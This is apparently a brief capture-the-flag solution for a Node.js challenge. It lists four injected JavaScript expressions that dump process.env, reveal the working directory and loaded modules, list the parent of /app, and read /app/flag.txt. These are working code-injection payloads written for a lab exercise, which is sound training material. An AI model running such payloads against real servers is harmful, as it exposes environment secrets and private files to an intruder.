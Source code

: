 ** Node js question

** Websit view

** source code analysis

**solution
1,(a => process.env)(), (a => process.cwd())(), (a => process.mainModule)()

2, (a => process.mainModule.children.map(child => child.filename))()

3,(a => process.mainModule.require('fs').readdirSync('/app/..'))()

4,(a => process.mainModule.require('fs').readFileSync('/app/flag.txt', 'utf-8'))()
